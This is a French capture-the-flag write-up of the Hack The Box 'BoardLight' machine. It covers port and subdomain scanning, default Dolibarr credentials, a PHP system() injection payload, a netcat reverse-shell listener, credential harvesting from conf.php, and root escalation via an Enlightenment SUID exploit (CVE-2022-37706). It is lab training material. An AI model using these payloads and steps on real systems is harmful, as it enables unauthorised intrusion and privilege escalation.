   # BoardLight

	echo "10.10.11.11 board.htb" >> /etc/hosts
    echo "10.10.11.11 crm.board.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.11 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 -A 10.10.11.11 -oN nmap.txt
	feroxbuster --silent -u http://board.htb
	ffuf -H "Host: FUZZ.board.htb" -u http://board.htb -w ./Wordlists/n0kovo_subdomains_huge.txt -fs 15949

    
Scans classiques. Bien faire le fuzzing sur "board.htb" qui est trouvé grâce à l'adresse de contact.

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

Sous-domaine trouvé : 

> crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 62ms]::

http://crm.board.htb/ => Page de login Dolibarr 17.0.0

Credentials par défaut : admin/admin

Une exécution de code est possible une fois authentifié. Voir : https://www.swascan.com/security-advisory-dolibarr-17-0-0/

Payload : 

    <?PHP echo system(“whoami”).”<br><br>”.system(“pwd”).”<br><br>”.system(“ip a”);?>
    
Remplacer le "pwd" par un reverse-shell et réceptionner la connexion : 

    nc -nvlp 9999
    ...
    whoami
    
On reçoit un shell en tant que www-data.

Mot de passe dans un fichier de configuration : 

    cat /var/www/html/crm.board.htb/htdocs/conf/conf.php
    
Le mot de passe fonctionne pour l'utilisateur "larissa" qui avait un dossier dans /home/ : 
    
    ssh larissa@10.10.11.11
    cat user.txt 

## Élévation de privilèges

find / -perm /4000 2>/dev/null

Quelques résultats inhabituels : 

    /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
    /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
    /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
    /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset

Voir : https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit

    cd /tmp
    vi exp.sh
    chmod +x exp.sh
    ./exp.sh
    ...
    whoami
    cat /root/root.txt
